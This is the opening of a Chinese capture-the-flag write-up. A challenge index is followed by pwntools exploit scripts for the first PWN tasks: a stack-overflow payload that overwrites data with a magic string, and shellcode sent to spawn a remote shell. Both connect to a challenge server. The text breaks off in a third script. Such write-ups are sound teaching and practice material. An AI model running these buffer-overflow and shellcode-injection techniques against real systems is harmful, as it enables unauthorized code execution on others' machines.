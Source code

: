 - [ PWN](#head1)
	- [ easyoverflow](#head2)
	- [ shellcode](#head3)
	- [ Easy_equation](#head4)
	- [shellcode Revenge](#head5)
	- [ nothing_but_everything](#head6)
- [ web](#head7)
	- [ ez_bypass](#head8)
- [ RE](#head9)
	- [ Transform](#head10)
	- [ 撸啊撸](#head11)
	- [ PixelShooter](#head12)
	- [ hello_world_go](#head13)
	- [ Hard-to-go](#head14)
	- [ Shit](#head15)
	- [ EasyCpp](#head16)
- [ Crypto](#head17)
	- [ 天干地支+甲子](#head18)
	- [ Keyboard](#head19)
- [ Misc](#head20)
	- [ 千层套路](#head21)
	- [ CyberPunk](#head22)
	- [ Ezmisc](#head23)
	- [ 你能看懂音符吗](#head24)
# <span id="head1"> PWN</span>
## <span id="head2"> easyoverflow</span>
简单栈溢出exp.py
```python
#coding:utf8
from pwn import *

#sh = process('./easy_overflow')

sh = remote('38.39.244.2',28085)

payload = 'a'*0x30 + 'n0t_r3@11y_f1@g'

sh.sendline(payload)

sh.interactive()

```
## <span id="head3"> shellcode</span>
直接用pwntools自带的shellcode
```python
#coding:utf8
from pwn import *

#sh = process('./shellcode')
sh = remote('38.39.244.2',28068)
sh.sendline(asm(shellcraft.amd64.linux.sh(),arch='amd64'))

sh.interactive()
```
## <span id="head4"> Easy_equation</span>
直接覆盖返回地址
```python
#coding:utf8
from pwn import *

```